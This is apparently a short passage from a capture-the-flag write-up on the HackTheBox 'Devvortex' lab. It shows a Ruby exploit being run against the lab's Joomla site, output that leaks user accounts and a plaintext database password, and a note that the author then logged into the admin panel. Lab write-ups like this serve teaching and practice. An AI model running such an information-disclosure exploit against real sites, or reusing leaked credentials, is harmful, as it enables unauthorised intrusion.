 ![](images/Pasted%20image%2020240330001141.png)

```
╰─ ruby exp.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

Using the credentials, I was able to log into the joomla admin page.
